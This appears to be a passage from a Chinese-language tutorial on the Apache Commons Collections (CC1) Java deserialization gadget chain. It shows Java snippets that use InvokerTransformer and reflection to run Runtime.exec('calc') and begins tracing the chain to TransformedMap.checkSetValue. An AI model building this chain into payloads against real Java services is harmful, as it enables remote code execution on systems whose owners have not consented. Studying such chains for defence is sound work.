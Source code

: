 ![image-20240306152242657](assets/image-20240306152242657.png)

`transform`将解析构造方法传入的三个参数，执行`input`对象的`iMethodName`方法。

```java
    public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        Object invokerTransformer = new InvokerTransformer("exec", new
                Class[]{String.class}, new String[]{"calc"}).transform(r);
    }
```

以上例子等同于这样：

```java
    public static void main(String[] args) throws Exception {
        Runtime runtime  = Runtime.getRuntime();
        Class c = Runtime.class;
        Method method = c.getMethod("exec",String.class);
        method.invoke(runtime,"calc");
    }
```

现在既然知道了`InvokerTransformer`的`transform`方法能够调用危险方法，就可以往前推找一个能够调用`transform`的类。

## org.apache.commons.collections.map.TransformedMap

在类`TransformedMap`中存在一个`checkSetValue`调用了`transform`方法。

![image-20240306154716895](assets/image-20240306154716895.png)
